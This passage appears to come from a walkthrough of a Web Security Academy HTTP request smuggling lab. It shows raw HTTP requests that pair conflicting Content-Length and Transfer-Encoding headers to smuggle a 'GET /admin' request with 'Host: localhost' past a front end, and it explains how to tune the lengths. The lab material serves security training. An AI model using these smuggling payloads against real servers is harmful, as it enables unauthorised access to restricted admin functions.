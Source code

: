Send the attacker and normal request again. An error stating duplicate header names are not allowed may also be returned because there are two Host headers being sent in the poisoned request. To fix it, try moving what is in the normal request (what gets appended) to the body such as:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Jonny: x

x=
```

This may make the request as follows:

```http
POST / HTTP/1.1
Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 59
Transfer-Encoding: chunked

3
abc
0

GET /admin HTTP/1.1
Host: localhost
Jonny: xPOST / HTTP/1.1

x=Host: 0a54004204172afd81621b5c003c001a.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 7

foo=bar
```

IF errors occur, try thinking what the back end is going to do with the normal request if you don't set a Content-Length. It would mean the CL would be 0 and the back-end would just ignore the `x=` set earlier. 

The Content-Length needs to be set that is big enough so that at least one byte of the normal request is appended to the smuggled request body. 

To do this, try making the following request and changing it to move it to the request body such as:
